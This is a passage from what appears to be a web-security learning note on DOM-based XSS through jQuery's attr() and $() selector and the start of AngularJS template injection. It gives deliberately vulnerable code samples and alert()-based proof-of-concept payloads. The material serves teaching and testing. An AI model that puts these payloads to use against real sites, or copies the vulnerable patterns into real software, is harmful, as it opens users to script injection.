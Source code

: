 ### jQuery

jQuery's `attr()` function can change the attributes of DOM elements

```javascript
$(function() {
	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});
```

Exploit

```sh
?returnUrl=javascript:alert(document.domain)
```

***

jQuery's `$()` selector function in another potential sink. If you open the browser console and type `$('<img src=x onerror=alert()>')` jQuery creates this new element (so the alert will be shown)

An example:

```javascript
$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});
```

Exploit

```html
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

{{< hint style=notes >}}
**Note**: Recent versions of jQuery have patched this specific vulnerability by preventing HTML injection into a selector if the input begins with a hash (#). But remember, this is just an example, the real problem is how `$()` selector works .
{{< /hint >}}

### AngularJS

When a site uses the `ng-app` attribute on an HTML element, AngularJS processes it and executes JavaScript inside double curly braces `{{ }}` in HTML or attributes.

Consider

```sh
https://example.com/?search=test
```

```html
<body ng-app>
<!-- something -->
<h1>0 search results for 'test'</h1>
<!-- something -->
</body>
```
